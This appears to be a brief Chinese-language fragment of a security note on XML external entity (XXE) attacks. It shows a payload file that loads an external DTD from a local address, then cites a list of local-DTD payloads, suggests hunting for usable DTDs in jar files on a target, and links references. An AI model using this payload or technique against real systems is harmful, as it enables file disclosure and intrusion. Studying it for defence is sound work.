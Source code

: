 xxe_http.xml

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
        <!ENTITY % dtd SYSTEM "http://127.0.0.1:8080/local.dtd">
        %dtd;
        ]>
<ANY>xxe</ANY>
```

更多的本地dtd可以参考https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads.md

另一个思路：从目标机器上的jar包中发现可以被利用的本地dtd文件



参考：

- https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/
- https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/



<script>pangu.spacingPage();</script>